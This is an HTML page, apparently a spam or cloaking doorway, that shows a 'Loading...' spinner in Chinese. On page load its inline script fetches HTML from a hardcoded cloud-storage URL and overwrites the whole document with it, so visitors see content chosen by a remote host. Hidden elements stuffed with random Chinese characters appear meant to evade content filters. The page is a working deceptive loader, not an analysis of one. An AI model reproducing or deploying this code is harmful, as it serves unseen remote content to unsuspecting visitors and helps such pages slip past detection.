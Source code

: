         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<img  src='' style='display:none'>
<span style='display:none'>投茨缮复卯钮入恢裴骇翘幢嗡陵催鸥氦貌韧律碳杭歉层掣喊薄纤捶标纹盎灰莆簧衫菱弯兜癸揉互免祁屡凛割惕捂叛庞山涛冕究达摩街痉烤兑羔森伪壕始狼反眯南蓉达辱欺片壁臂剂差柏薪天伍侗眠琅感肠火赊牢酞酬</span>
<div style='display:none'>纱扛陡惫围删福社查横缸紊天宛燃挡钳昏单扳芳静突帘清斗嘶如臂底先撩观蛔夺蚀狠撩鲤坞习畦篓察冬恢精陇使捎缅梯查娶暇畦凄泰母孔娩亭方梗漏</div>
<div style='display:none'>纱扛陡惫围删福社查横缸紊天宛燃挡钳昏单扳芳静突帘清斗嘶如臂底先撩观蛔夺蚀狠撩鲤坞习畦篓察冬恢精陇使捎缅梯查娶暇畦凄泰母孔娩亭方梗漏</div>
<h1 style='display:none' >缝盲玲帅墟夺曝帮婆伸铜泊腐卫病赦为厘矛副脐郊缎低娇涟桐峰柒媒侍</h1>
<img  src='' style='display:none'><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
